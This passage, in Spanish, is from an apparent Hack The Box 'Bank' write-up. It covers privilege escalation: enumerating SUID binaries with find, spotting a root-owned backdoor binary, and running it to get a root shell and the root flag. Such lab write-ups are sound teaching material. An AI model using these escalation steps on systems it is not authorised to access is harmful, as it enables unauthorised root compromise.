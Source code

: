## Privilege Escalation

### Abusing SUID Binary

Realizaremos una verificación inicial de los privilegios que dispone el usuario actual. Verificamos que no disponemos de algún grupo interesante ni permisos de `sudoers`.

Al verificar si había algún permiso de `SUID` sobre algún binario, comprobamos la existencia de un binario inusual llamado `/var/htb/bin/emergency`.

```bash
www-data@bank:/var/www/bank/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@bank:/var/www/bank/uploads$ sudo -l
[sudo] password for www-data: 

www-data@bank:/var/www/bank/uploads$ find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

Verificamos el propietario de este binario y nos encontramos que es `root`.

```bash
www-data@bank:/var/www/bank/uploads$ ls -l /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
```

Probamos de utilizar el binario para verificar el funcionamiento de este. Inesperadamente, este binario nos proporcionó acceso como `root` con lo cual pudimos visualizar la flag de **root.txt**.

Al parecer este binario era como una especie de `backdoor` que habrían dejado los administradores del sistema.&#x20;

